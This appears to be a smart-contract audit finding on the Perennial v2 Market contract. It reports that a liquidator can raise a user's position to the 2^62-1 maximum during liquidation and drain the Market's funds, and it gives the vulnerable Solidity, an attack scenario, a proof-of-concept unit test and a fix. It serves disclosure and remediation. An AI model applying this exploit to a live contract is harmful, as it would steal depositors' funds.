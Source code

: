 Bouncy Corduroy Chimpanzee

high

# Liquidator can liquidate user while increasing user position to any value, stealing all Market funds or bricking the contract

## Summary

When a user is liquidated, there is a check to ensure that after liquidator order executes, `closable = 0`, but this actually doesn't prevent liquidator from increasing user position, and since all position size and collateral checks are skipped during liquidation, this allows malicious liquidator to open position of max possible size (`2^62-1`) during liquidation. Opening such huge position means the Market contract accounting is basically broken from this point without any ability to restore it. For example, the fee paid (and accumulated by makers) from opening such position will be higher than entire Market collateral balance, so any maker can withdraw full Market balance immediately after this position is settled.

`closable` is the value calculated as the maximum possible position size that can be closed even if some pending position updates are invalidated due to invalid oracle version. For example:

- Latest position = 10
- Pending position [t=200] = 0
- Pending position [t=300] = 1000

In such scenario `closable = 0` (regardless of position size at t=300).

## Vulnerability Detail

When position is liquidated (called `protected` in the code), the following requirements are enforced in `_invariant()`:
```solidity
if (protected && (
    !context.closable.isZero() || // @audit even if closable is 0, position can still increase
    context.latestPosition.local.maintained(
        context.latestVersion,
        context.riskParameter,
        context.pendingCollateral.sub(collateral)
    ) ||
    collateral.lt(Fixed6Lib.from(-1, _liquidationFee(context, newOrder)))
)) revert MarketInvalidProtectionError();

if (
    !(context.currentPosition.local.magnitude().isZero() && context.latestPosition.local.magnitude().isZero()) &&   // sender has no position
    !(newOrder.isEmpty() && collateral.gte(Fixed6Lib.ZERO)) &&                                                      // sender is depositing zero or more into account, without position change
    (context.currentTimestamp - context.latestVersion.timestamp >= context.riskParameter.staleAfter)                // price is not stale
) revert MarketStalePriceError();

if (context.marketParameter.closed && newOrder.increasesPosition())
    revert MarketClosedError();

if (context.currentPosition.global.maker.gt(context.riskParameter.makerLimit))
    revert MarketMakerOverLimitError();

if (!newOrder.singleSided(context.currentPosition.local) || !newOrder.singleSided(context.latestPosition.local))
    revert MarketNotSingleSidedError();

if (protected) return; // The following invariants do not apply to protected position updates (liquidations)
```

The requirements for liquidated positions are:
- closable = 0, user position collateral is below maintenance, liquidator withdraws no more than liquidation fee
- market oracle price is not stale
- for closed market - order doesn't increase position
- maker position doesn't exceed maker limit
- order and position are single-sided

All the other invariants are skipped for liquidation, including checks for long or short position size and collateral.

As shown in the example above, it's possible for the user to have `closable = 0` while having the new (current) position size of any amount, which makes it possible to succesfully liquidate user while increasing the position size (long or short) to any amount (up to max `2^62-1` enforced when storing position size values).

Scenario for opening any position size (oracle `granularity = 100`):
T=1: ETH price = $100. User opens position `long = 10` with collateral = min margin ($350)
T=120: Oracle version T=100 is commited, price = $100, user position is settled (becomes latest)
...
T=150: ETH price starts moving against the user, so the user tries to close the position calling `update(0,0,0,0,false)`
T=205: Current price is $92 and user becomes liquidatable (before the T=200 price is commited, so his close request is still pending). Liquidator commits unrequested oracle version T=190, price = $92, user is liquidated while increasing his position: `update(0,2^62-1,0,0,true)`
Liquidation succeeds, because user has latest long = 10, pending long = 0 (t=200), liquidation pending long = 2^62-1 (t=300). `closable = 0`.

## Impact

Malicious liquidator can liquidate users while increasing their position to any value including max possible 2^62-1 ignoring any collateral and position size checks. This is possible on its own, but liquidator can also craft such situation with very high probability. As a result of this action, all users will lose all their funds deposited into Market. For example, fee paid (and accured by makers) from max possible position will exceed total Market collateral balance so that the first maker will be able to withdraw all Market balance, minimal price change will create huge profit for the user, exceeding Market balance (if fee = 0) etc.

## Proof of concept

The scenario above is demonstrated in the test, add this to test/unit/market/Market.test.ts:
```ts
it('liquidate with huge open position', async () => {
const positionMaker = parse6decimal('20.000')
const positionLong = parse6decimal('10.000')
const collateral = parse6decimal('1000')
const collateral2 = parse6decimal('350')
const maxPosition = parse6decimal('4611686018427') // 2^62-1

const oracleVersion = {
    price: parse6decimal('100'),
    timestamp: TIMESTAMP,
    valid: true,
}
oracle.at.whenCalledWith(oracleVersion.timestamp).returns(oracleVersion)
oracle.status.returns([oracleVersion, TIMESTAMP + 100])
oracle.request.returns()

// maker
dsu.transferFrom.whenCalledWith(userB.address, market.address, collateral.mul(1e12)).returns(true)
await market.connect(userB).update(userB.address, positionMaker, 0, 0, collateral, false)

// user opens long=10
dsu.transferFrom.whenCalledWith(user.address, market.address, collateral2.mul(1e12)).returns(true)
await market.connect(user).update(user.address, 0, positionLong, 0, collateral2, false)

const oracleVersion2 = {
    price: parse6decimal('100'),
    timestamp: TIMESTAMP + 100,
    valid: true,
}
oracle.at.whenCalledWith(oracleVersion2.timestamp).returns(oracleVersion2)
oracle.status.returns([oracleVersion2, TIMESTAMP + 200])
oracle.request.returns()

// price moves against user, so he's at the edge of liquidation and tries to close
// position: latest=10, pending [t=200] = 0 (closable = 0)
await market.connect(user).update(user.address, 0, 0, 0, 0, false)

const oracleVersion3 = {
    price: parse6decimal('92'),
    timestamp: TIMESTAMP + 190,
    valid: true,
}
oracle.at.whenCalledWith(oracleVersion3.timestamp).returns(oracleVersion3)
oracle.status.returns([oracleVersion3, TIMESTAMP + 300])
oracle.request.returns()

var loc = await market.locals(user.address);
var posLatest = await market.positions(user.address);
var posCurrent = await market.pendingPositions(user.address, loc.currentId);
console.log("Before liquidation. Latest= " + posLatest.long + " current = " + posCurrent.long);

// t = 205: price drops to 92, user becomes liquidatable before the pending position oracle version is commited
// liquidator commits unrequested price = 92 at oracle version=190, but current timestamp is already t=300
// liquidate. User pending positions:
//   latest = 10
//   pending [t=200] = 0
//   current(liquidated) [t=300] = max possible position (2^62-1)
await market.connect(user).update(user.address, 0, maxPosition, 0, 0, true)

var loc = await market.locals(user.address);
var posLatest = await market.positions(user.address);
var posCurrent = await market.pendingPositions(user.address, loc.currentId);
console.log("After liquidation. Latest= " + posLatest.long + " current = " + posCurrent.long);

})
```

## Code Snippet

`_processPendingPosition` calculates `context.closable` by taking latest position and reducing it any time pending order reduces position, and not changing it when pending order increases position, meaning a sequence like (10, 0, 1000000) will have `closable = 0`:
https://github.com/sherlock-audit/2023-10-perennial/blob/main/perennial-v2/packages/perennial/contracts/Market.sol#L253-L256

`_invariant` only checks `closable` for protected (liquidated) positions, ignoring order checks except for closed market:
https://github.com/sherlock-audit/2023-10-perennial/blob/main/perennial-v2/packages/perennial/contracts/Market.sol#L567-L592

## Tool used

Manual Review

## Recommendation

When liquidating, order must decrease position:
```solidity
if (protected && (
    !context.closable.isZero() || // @audit even if closable is 0, position can still increase
    context.latestPosition.local.maintained(
        context.latestVersion,
        context.riskParameter,
        context.pendingCollateral.sub(collateral)
    ) ||
-    collateral.lt(Fixed6Lib.from(-1, _liquidationFee(context, newOrder)))
+    collateral.lt(Fixed6Lib.from(-1, _liquidationFee(context, newOrder))) ||
+    newOrder.maker.add(newOrder.long).add(newOrder.short).gte(Fixed6Lib.ZERO)
)) revert MarketInvalidProtectionError();
```